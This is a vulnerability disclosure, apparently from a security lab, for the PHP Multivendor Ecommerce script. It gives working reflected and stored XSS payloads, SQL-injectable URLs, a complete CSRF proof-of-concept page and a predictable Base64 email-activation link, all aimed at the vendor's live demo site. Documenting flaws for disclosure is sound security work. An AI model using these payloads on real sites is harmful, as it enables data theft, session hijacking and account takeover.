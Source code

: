 ### PHP Multivendor Ecommerce- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF/Arbitrary-Binding

#### ADLab of Venustech

Well,  when I pentest the official demo site of PHP Multivendor Ecommerce, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

###### XSS1

```
http://www.fxwebsolution.com/demo/arthi/multivendor/category.php?chid1=40%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss1.png)

###### XSS2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/seller-view.php?usid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss2.png)

###### XSS3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss3.png)


###### XSS4

````
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
````

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss4.png)


##### Stored-XSS 


```
http://www.fxwebsolution.com/demo/arthi/multivendor/admin/sellerupd.php?upd=2&uid=36&id=61
```

POST parameters:

```
------WebKitFormBoundary2wspk6wZ1zP1BEHR
Content-Disposition: form-data; name="companyname"

abc pvt ltd'"><svg/onload=alert(document.cookie)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sxss.png)



#### SQL Injection:

##### sqli1
```
http://www.fxwebsolution.com//demo/arthi/multivendor/seller-view.php?usid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli1.png)

##### sqli2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli2.png)


##### sqli3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli3.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.fxwebsolution.com\/demo\/arthi\/multivendor\/admin\/sellerupd.php?upd=2&uid=36&id=61", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2wspk6wZ1zP1BEHR");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"idvalue\"\r\n" + 
          "\r\n" + 
          "61\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"upd\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"user_mail\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"about\"\r\n" + 
          "\r\n" + 
          "ihguifhugjhufdhgjhd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"store\"\r\n" + 
          "\r\n" + 
          "avc\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"cphone\"\r\n" + 
          "\r\n" + 
          "2147483647\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"policy\"\r\n" + 
          "\r\n" + 
          "gfgfvhhjj\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address1\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address2\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"proof\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"_submit\"\r\n" + 
          "\r\n" + 
          "Save\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=NTA=
```
After Base64 decode:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding2.png)

So it's easy to predict or enum the eid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.
